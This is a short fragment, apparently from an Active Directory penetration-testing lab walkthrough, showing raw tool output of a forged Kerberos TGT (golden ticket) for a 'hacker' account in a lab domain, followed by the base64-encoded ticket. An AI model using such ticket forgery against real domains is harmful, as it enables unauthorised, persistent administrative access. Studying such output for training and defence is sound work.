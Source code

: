 ```bash
[*] Signing PAC

[*] Encrypting EncTicketPart

[*] Generating Ticket

[*] Generated KERB-CRED

[*] Forged a TGT for 'hacker@LOGISTICS.INLANEFREIGHT.LOCAL'



[*] AuthTime       : 3/29/2022 10:06:41 AM

[*] StartTime      : 3/29/2022 10:06:41 AM

[*] EndTime        : 3/29/2022 8:06:41 PM

[*] RenewTill      : 4/5/2022 10:06:41 AM



[*] base64(ticket.kirbi):

doIF0zCCBc+gAwIBBaEDAgEWooIEnDCCBJhhggSUMIIEkKADAgEFoR8bHUxPR0lTVElDUy5JTkxBTkVG

UkVJR0hULkxPQ0FMojIwMKADAgECoSkwJxsGa3JidGd0Gx1MT0dJU1RJQ1MuSU5MQU5FRlJFSUdIVC5M

T0NBTKOCBDIwggQuoAMCARehAwIBA6KCBCAEggQc0u5onpWKAP0Hw0KJuEOAFp8OgfBXlkwH3sXu5BhH

T3zO/Ykw2Hkq2wsoODrBj0VfvxDNNpvysToaQdjHIqIqVQ9kXfNHM7bsQezS7L1KSx++2iX94uRrwa/S

VfgHhAuxKPlIi2phwjkxYETluKl26AUo2+WwxDXmXwGJ6LLWN1W4YGScgXAX+Kgs9xrAqJMabsAQqDfy

k7+0EH9SbmdQYqvAPrBqYEnt0mIPM9cakei5ZS1qfUDWjUN4mxsqINm7qNQcZHWN8kFSfAbqyD/OZIMc

g78hZ8IYL+Y4LPEpiQzM8JsXqUdQtiJXM3Eig6RulSxCo9rc5YUWTaHx/i3PfWqP+dNREtldE2sgIUQm

9f3cO1aOCt517Mmo7lICBFXUTQJvfGFtYdc01fWLoN45AtdpJro81GwihIFMcp/vmPBlqQGxAtRKzgzY

acuk8YYogiP6815+x4vSZEL2JOJyLXSW0OPhguYSqAIEQshOkBm2p2jahQWYvCPPDd/EFM7S3NdMnJOz

X3P7ObzVTAPQ/o9lSaXlopQH6L46z6PTcC/4GwaRbqVnm1RU0O3VpVr5bgaR+Nas5VYGBYIHOw3Qx5YT

3dtLvCxNa3cEgllr9N0BjCl1iQGWyFo72JYI9JLV0VAjnyRxFqHztiSctDExnwqWiyDaGET31PRdEz+H

WlAi4Y56GaDPrSZFS1RHofKqehMQD6gNrIxWPHdS9aiMAnhQth8GKbLqimcVrCUG+eghE+CN999gHNMG

Be1Vnz8Oc3DIM9FNLFVZiqJrAvsq2paakZnjf5HXOZ6EdqWkwiWpbGXv4qyuZ8jnUyHxavOOPDAHdVeo

/RIfLx12GlLzN5y7132Rj4iZlkVgAyB6+PIpjuDLDSq6UJnHRkYlJ/3l5j0KxgjdZbwoFbC7p76IPC3B

aY97mXatvMfrrc/Aw5JaIFSaOYQ8M/frCG738e90IK/2eTFZD9/kKXDgmwMowBEmT3IWj9lgOixNcNV/

OPbuqR9QiT4psvzLGmd0jxu4JSm8Usw5iBiIuW/pwcHKFgL1hCBEtUkaWH24fuJuAIdei0r9DolImqC3

sERVQ5VSc7u4oaAIyv7Acq+UrPMwnrkDrB6C7WBXiuoBAzPQULPTWih6LyAwenrpd0sOEOiPvh8NlvIH

eOhKwWOY6GVpVWEShRLDl9/XLxdnRfnNZgn2SvHOAJfYbRgRHMWAfzA+2+xps6WS/NNf1vZtUV/KRLlW

sL5v91jmzGiZQcENkLeozZ7kIsY/zadFqVnrnQqsd97qcLYktZ4yOYpxH43JYS2e+cXZ+NXLKxex37HQ

F5aNP7EITdjQds0lbyb9K/iUY27iyw7dRVLz3y5Dic4S4+cvJBSz6Y1zJHpLkDfYVQbBUCfUps8ImJij
```
